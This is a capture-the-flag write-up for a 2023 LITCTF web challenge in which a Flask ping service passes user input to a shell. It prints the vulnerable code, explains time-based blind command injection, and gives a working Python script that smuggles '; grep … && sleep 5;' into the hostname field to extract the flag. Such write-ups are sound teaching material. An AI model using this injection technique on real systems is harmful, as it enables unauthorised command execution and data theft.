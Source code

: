 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
author: thanguyen165
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, write-ups]
---
```


* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance.zip](http://34.27.167.72/dl/?web%2FPing+Pong_+Under+Maintenance%2Fping-pong-under-maintenance.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```
{: file="pingpong.py" }

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```
grep "LIT" flag.txt && sleep 5;
```

- If ```grep "LIT" flag.txt``` is correct, aka string ```"LIT"``` is in ```flag.txt``` content, the second command ```sleep 5``` will be executed, and it takes more time to return response.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)

```
{: file="solution.py" }

The flag is
```
LITCTF{c4refu1_fr}
```